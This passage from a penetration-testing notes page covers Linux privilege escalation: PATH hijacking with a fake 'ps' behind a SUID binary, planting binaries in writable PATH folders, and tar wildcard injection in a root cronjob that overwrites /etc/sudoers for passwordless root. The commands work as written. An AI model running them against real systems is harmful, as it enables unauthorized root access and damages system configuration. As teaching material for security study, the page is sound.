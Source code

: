 And create a file with execution permissions with the same binary name:

```text
echo "/bin/bash" > /tmp/ps
/bin/chmod +x /tmp/ps
```

Finally when the SUID files calls `ps` function, instead of showing system processes will execute our command.

{% hint style="warning" %}
**Remember**: To exploit PATH variable **we need a SUID File** to gain privileges otherwise it will be executed as normal user.
{% endhint %}

## Writeable Folders

We can elevate our privileges some times when we have write permissions in some specific directories.

{% hint style="info" %}
**Note**: With write permissions on the folder we can **create/delete/move files** but not modify them.
{% endhint %}

### On PATH variable

When we can write on folders such as `/usr/local/bin` `/usr/bin` or some others that are included on the PATH variable we can escalate our privileges by **modifying or creating a new binary** that will be executed as **root**.

#### SSH port open

When we ssh a machine root executes `run-parts` binary so we add a malicious binary on the path. Look [Executing files with root ](https://mvc1009.gitbook.io/hackingnotes/privilege-escalation/linux-privesc#executing-files-with-root)to see which binary we can fit our needs.

## Abusing Wildcards \(\*\)

### Tar Argument Injection in root cronjob

Imagine you compromise a low-level user on a system and you figure out this command is running as root:

```text
cd /var/log/mon && tar -zcf /tmp/mon.tar.gz *
```

We want to go with **sudoers** **file** as we are lazy and just sudo bash, so let's see....

```text
echo 'echo "user ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > privesc.sh
echo "" > "--checkpoint-action=exec=sh privesc.sh"
echo "" > --checkpoint=1
```
